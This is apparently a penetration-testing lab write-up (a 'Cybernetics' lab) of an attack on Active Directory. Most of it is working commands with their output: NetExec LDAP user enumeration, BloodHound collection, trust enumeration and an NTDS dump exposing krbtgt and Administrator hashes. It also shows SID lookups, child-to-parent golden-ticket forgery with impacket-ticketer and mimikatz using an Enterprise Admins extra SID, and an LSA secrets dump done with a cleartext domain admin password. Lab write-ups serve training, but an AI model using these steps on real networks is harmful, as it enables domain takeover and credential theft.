SMB         10.9.10.10      445    CYDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYDC) (domain:cyber.local) (signing:True) (SMBv1:False)
LDAP        10.9.10.10      389    CYDC             [+] core.cyber.local\COREWEBDL$:4182816cd42bdb6d20f7fb89703f5c48 
LDAP        10.9.10.10      389    CYDC             [*] Total records returned: 77
LDAP        10.9.10.10      389    CYDC             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        10.9.10.10      389    CYDC             Administrator                 2020-01-07 18:17:42 0       Built-in account for administering the computer/domain      
LDAP        10.9.10.10      389    CYDC             Guest                         <never>             0       Built-in account for guest access to the computer/domain    
LDAP        10.9.10.10      389    CYDC             DefaultAccount                <never>             0       A user account managed by the system.                       
LDAP        10.9.10.10      389    CYDC             krbtgt                        2020-06-08 13:44:38 0       Key Distribution Center Service Account                     
LDAP        10.9.10.10      389    CYDC             Dennis.Hinkle                 2019-12-31 06:47:55 2                                                                   
LDAP        10.9.10.10      389    CYDC             Emogene.Kremer                2019-12-31 06:47:55 1                                                                   
LDAP        10.9.10.10      389    CYDC             Laurette.Partridge            2019-12-31 06:47:55 1                                                                   
LDAP        10.9.10.10      389    CYDC             Forrest.Lowery                2019-12-31 06:47:55 1                                                                   
LDAP        10.9.10.10      389    CYDC             Angela.Stark                  2019-12-31 06:47:55 1                                                                   
LDAP        10.9.10.10      389    CYDC             Arthur.Pearlman               2019-12-31 06:47:55 1                                                                   
LDAP        10.9.10.10      389    CYDC             David.Hurley                  2019-12-31 06:47:55 1                                                                   
LDAP        10.9.10.10      389    CYDC             Bradley.Frederick             2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Michael.Fowler                2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             William.Donovan               2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Robert.Ortiz                  2019-12-31 06:47:56 0                                                                   
LDAP        10.9.10.10      389    CYDC             Wanda.McGee                   2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Frederick.Noble               2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Ashley.Locascio               2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Viola.Soto                    2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Ira.Ferreira                  2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Laurie.Libby                  2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Fred.Filip                    2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Brandon.Suggs                 2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Jack.Bundy                    2019-12-31 06:47:56 1                                                                   
LDAP        10.9.10.10      389    CYDC             Tomeka.Ohara                  2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Daniel.Manning                2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Gina.Horner                   2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Judith.Conti                  2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Katherine.Hayes               2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Minnie.Weber                  2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Richard.Hause                 2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Sabrina.Sellers               2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Tyrone.Stewart                2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Richard.Thomas                2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Micheal.Crosley               2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Charlene.Butcher              2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Lorraine.McDonald             2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             David.Gaines                  2019-12-31 06:47:57 0                                                                   
LDAP        10.9.10.10      389    CYDC             Elda.Martinez                 2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Ronald.Shepard                2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Justin.Doty                   2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Silvia.Harrison               2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Amanda.Green                  2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Terri.Benson                  2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             John.Braud                    2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Trevor.Cabrera                2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Janet.Raymond                 2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Jenny.Vickers                 2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Celia.Joplin                  2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Frank.Barna                   2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Juan.Hutchins                 2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Tommy.Harness                 2019-12-31 06:47:58 0                                                                   
LDAP        10.9.10.10      389    CYDC             Dino.Longoria                 2019-12-31 06:47:59 0                                                                   
LDAP        10.9.10.10      389    CYDC             Gary.Jackson                  2019-12-31 06:47:59 0                                                                   
LDAP        10.9.10.10      389    CYDC             $H51000-QE41CF9RF1FM          <never>             0                                                                   
LDAP        10.9.10.10      389    CYDC             SM_1d885b86146646c99          <never>             0                                                                   
LDAP        10.9.10.10      389    CYDC             SM_4678ba7a74114211a          <never>             0                                                                   
LDAP        10.9.10.10      389    CYDC             SM_c7ef9cbdee564cf09          <never>             0                                                                   
LDAP        10.9.10.10      389    CYDC             SM_e1711118600448eda          <never>             0                                                                   
LDAP        10.9.10.10      389    CYDC             SM_8587a514dccc4fa39          <never>             0                                                                   
LDAP        10.9.10.10      389    CYDC             SM_6b4f1fba08944c958          <never>             0                                                                   
LDAP        10.9.10.10      389    CYDC             SM_570bd9e82b6f4262a          <never>             0                                                                   
LDAP        10.9.10.10      389    CYDC             SM_44262a42ed1d4fd48          <never>             0                                                                   
LDAP        10.9.10.10      389    CYDC             SM_b7ccfc91689d42a88          <never>             0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailbox7fb3496          2024-06-14 14:58:50 0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailbox165315b          2024-06-14 14:59:03 0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailbox8529db8          2019-12-31 08:44:32 0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailboxe431f79          2019-12-31 08:44:43 0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailboxd96b607          2019-12-31 08:45:00 0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailbox2522b7c          2019-12-31 08:45:21 0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailbox91929ea          2019-12-31 08:45:33 0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailbox73c3c12          2019-12-31 08:45:44 0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailbox5850680          2019-12-31 08:46:00 0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailbox3d87454          2019-12-31 08:46:15 0                                                                   
LDAP        10.9.10.10      389    CYDC             HealthMailbox116be58          2019-12-31 08:46:26 0                                                                   
LDAP        10.9.10.10      389    CYDC             svc_waplink                   2021-01-15 15:55:35 0                                                                   
LDAP        10.9.10.10      389    CYDC             Robert.Lanza                  2021-01-20 06:56:28 0
```

&nbsp;

# Back on track

With Robert.Ortiz credentials we can run a new Bloodhound enumeration so far:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# bloodhound-python -d "CYBER.LOCAL" -u "Robert.Ortiz" -p 'to7oxaith2Vie9' -ns 10.9.10.10 -dc 'cydc.cyber.local' -c All --zip 
INFO: Found AD domain: cyber.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (cydc.cyber.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: cydc.cyber.local
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 7 computers
INFO: Connecting to LDAP server: cydc.cyber.local
INFO: Found 80 users
INFO: Connecting to GC LDAP server: cydc.cyber.local
INFO: Found 107 groups
INFO: Found 25 gpos
INFO: Found 43 ous
INFO: Found 21 containers
INFO: Found 4 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: cygw.cyber.local
INFO: Querying computer: cyapp.cyber.local
INFO: Querying computer: cyfs.cyber.local
INFO: Querying computer: cymx.cyber.local
INFO: Querying computer: cywap.cyber.local
INFO: Querying computer: cyadfs.cyber.local
INFO: Querying computer: cydc.cyber.local
INFO: User Ilene.Rasch is logged in on cyfs.cyber.local from 10.9.15.200
WARNING: Could not resolve hostname to SID: corewkt001.core.cyber.local
INFO: Done in 00M 12S
INFO: Compressing output into 20240618174103_bloodhound.zip
```

We can see he is part of DEVOPS group:



Which allows us to get the flag.txt from the FS


I will move back to TK001

&nbsp;

# BACK on trackl

Now I will use Robert.Ortiz credentials to get a fresh picture of this last domain..

Now Here I see several path I need to test, I need to see if I can get Dennis accunt, then we can access the MX server:



But we have Steven. Sanchez who is part of Server Admins:



Which is nested to the RDS users?



THis might mean we can use Steven to get to CYAPP?



But this isn't working out. so I will try the domain takeover from child -> parent since we have a bi-directional trust:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# NetExec ldap 10.9.10.10 -u "robert.ortiz" -p "to7oxaith2Vie9" -M enum_trusts
SMB         10.9.10.10      445    CYDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYDC) (domain:cyber.local) (signing:True) (SMBv1:False)
LDAP        10.9.10.10      389    CYDC             [+] cyber.local\robert.ortiz:to7oxaith2Vie9 
ENUM_TRUSTS 10.9.10.10      389    CYDC             [+] Found the following trust relationships:
ENUM_TRUSTS 10.9.10.10      389    CYDC             core.cyber.local -> Bidirectional -> Within Forest
ENUM_TRUSTS 10.9.10.10      389    CYDC             d3v.local -> Bidirectional -> Forest Transitive
ENUM_TRUSTS 10.9.10.10      389    CYDC             m3c.local -> Inbound -> Forest Transitive
ENUM_TRUSTS 10.9.10.10      389    CYDC             inception.local -> Bidirectional -> Forest Transitive
```

We can check that from COREDC as well via Powerview.ps1:

```
PS C:\temp> Import-Module .\PowerView.ps1
PS C:\temp> Get-DomainTrust


SourceName      : core.cyber.local
TargetName      : cyber.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 12/31/2019 6:59:19 AM
WhenChanged     : 6/19/2024 3:31:11 AM
```

We need the FQDN of the parent dc: **cydc.cyber.local**

```
PS C:\temp> Get-DomainComputer -Domain cyber.local -Properties DNSHostName

dnshostname
-----------
cydc.cyber.local
cyadfs.cyber.local
cywap.cyber.local
cymx.cyber.local
svc_adfs.cyber.local

cyfs.cyber.local
```

&nbsp;

My idea is to perfoms a SID attack so I need the KRBTGT hash of the child domain, Taken from the NetExec attack!

**35cc881028c3cf7a11c86f6f035649e0**

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_cyber_local]
└─# NetExec smb 10.9.15.10 -u "Administrator" -H b519f7764f7672e6a4a77cba6fb8fcdf -M ntdsutil
SMB         10.9.15.10      445    COREDC           [*] Windows 10 / Server 2016 Build 14393 x64 (name:COREDC) (domain:core.cyber.local) (signing:True) (SMBv1:False)
NTDSUTIL    10.9.15.10      445    COREDC           CYDC$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           Administrator:500:aad3b435b51404eeaad3b435b51404ee:b519f7764f7672e6a4a77cba6fb8fcdf:::
NTDSUTIL    10.9.15.10      445    COREDC           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           COREDC$:1000:aad3b435b51404eeaad3b435b51404ee:fe6960a311fe7d4e0ca3a6763220a797:::
NTDSUTIL    10.9.15.10      445    COREDC           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:35cc881028c3cf7a11c86f6f035649e0:::
```

The domain sid of the child domain: **S-1-5-21-1559563558-3652093953-1250159885**

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# impacket-lookupsid core.cyber.local/yovecio:yovecio@10.9.15.10 | grep "Domain SID"
[*] Domain SID is: S-1-5-21-1559563558-3652093953-1250159885
```

And the ENT ADMIN sid on the parent domain: **S-1-5-21-2011815209-557191040-1566801441-519**

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# impacket-lookupsid core.cyber.local/yovecio:yovecio@10.9.10.10 | grep -B12 "Enterprise Admins"
[*] Brute forcing SIDs at 10.9.10.10
[*] StringBinding ncacn_np:10.9.10.10[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2011815209-557191040-1566801441

498: CYBER\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CYBER\Administrator (SidTypeUser)
501: CYBER\Guest (SidTypeUser)
502: CYBER\krbtgt (SidTypeUser)
503: CYBER\DefaultAccount (SidTypeUser)
512: CYBER\Domain Admins (SidTypeGroup)
513: CYBER\Domain Users (SidTypeGroup)
514: CYBER\Domain Guests (SidTypeGroup)
515: CYBER\Domain Computers (SidTypeGroup)
516: CYBER\Domain Controllers (SidTypeGroup)
517: CYBER\Cert Publishers (SidTypeAlias)
518: CYBER\Schema Admins (SidTypeGroup)
519: CYBER\Enterprise Admins (SidTypeGroup)
```

Now we need to ask a golden ticket of a fake user on the root domain with all these informations...

&nbsp;

```
impacket-ticketer -nthash KRBTGT_HASH -domain CHILDDOMAIN -domain-sid SID_CHILD_DOMAIN -extra-sid SID_ENTADMIN_ROOT_DOMAIN Administrator
(This creates a Golden ticket of a fake user)
```

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# impacket-ticketer -nthash '35cc881028c3cf7a11c86f6f035649e0' -domain 'core.cyber.local' -domain-sid 'S-1-5-21-1559563558-3652093953-1250159885' -extra-sid 'S-1-5-21-2011815209-557191040-1566801441-519' Administrator
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for core.cyber.local/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in Administrator.ccache
```

And we point to the ticket:



But it isn't working so i guess rubeus is the way to go?



Asking a golden ticket:

```
mimikatz # kerberos::golden /user:hacker /domain:CORE.CYBER.LOCAL /sid:S-1-5-21-1559563558-3652093953-1250159885 /krbtgt:35cc881028c3cf7a11c86f6f035649e0 /sids:S-1-5-21-2011815209-557191040-1566801441-519 /ptt
User      : hacker
Domain    : CORE.CYBER.LOCAL (CORE)
SID       : S-1-5-21-1559563558-3652093953-1250159885
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-2011815209-557191040-1566801441-519 ;
ServiceKey: 35cc881028c3cf7a11c86f6f035649e0 - rc4_hmac_nt
Lifetime  : 6/19/2024 2:50:27 PM ; 6/17/2034 2:50:27 PM ; 6/17/2034 2:50:27 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ CORE.CYBER.LOCAL' successfully submitted for current session

mimikatz # exit
Bye!
PS C:\temp> klist.exe

Current LogonId is 0:0x4c705c

Cached Tickets: (1)

#0>     Client: hacker @ CORE.CYBER.LOCAL
        Server: krbtgt/CORE.CYBER.LOCAL @ CORE.CYBER.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 6/19/2024 14:50:27 (local)
        End Time:   6/17/2034 14:50:27 (local)
        Renew Time: 6/17/2034 14:50:27 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
PS C:\temp>
```



Nice it's in session..

But is is still not working unfortunately...



&nbsp;

# Back on track

Here I totally missed but I was able to export the credentials from the LSASS secrets that held the cleartext password of the domain admin of **cyber.local** domain!  
<br/>



With these I can now dump the LSASS secrets from this server... But nothing came out of interesting here.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# NetExec smb 10.9.10.10 -u 'Administrator' -p '9ze9wL0C!3' --lsa
SMB         10.9.10.10      445    CYDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYDC) (domain:cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.10.10      445    CYDC             [+] cyber.local\Administrator:9ze9wL0C!3 (Pwn3d!)
SMB         10.9.10.10      445    CYDC             [+] Dumping LSA secrets
SMB         10.9.10.10      445    CYDC             CYBER\CYDC$:aes256-cts-hmac-sha1-96:f995d62ff100b9eb3421e3fc2a3bc6330779d0993078a8a16a5c867f03fb746b
SMB         10.9.10.10      445    CYDC             CYBER\CYDC$:aes128-cts-hmac-sha1-96:c33aecefcf1d75b93fa29555b713d65d
SMB         10.9.10.10      445    CYDC             CYBER\CYDC$:des-cbc-md5:6db07cec2cfe0e4f
SMB         10.9.10.10      445    CYDC             CYBER\CYDC$:plain_password_hex:e6b661319efa212ed8036a45b7bd550c8452158ad3eb655b827d344d380743ffedf4c4aad825223d850e4cc70194ab793f5aeace3ed1b02153a43a18d9c0fd35ee627f88e43cdc3074f15f5b5d82bed8c03ca7f5d3e9e4e9af9e71bdb13b849a045f545b6066eddeb0a757194368524d1207da18ba7baaad592227f5188221fee9fa596152c389dc1ed6f30f57bb5fbb3f99db909104ee79c7a24beff3be1e73e70cbb69aff0109bb650cc8fef20e1a6bed0977511d2caadf13a62fd1e43c5dd65e3bbdf1b027fb755df632b60fb228e9da1a9d24ac6c5cae43e9b48b27f8aba971a60abdcc844ac17d67703ab4f521c
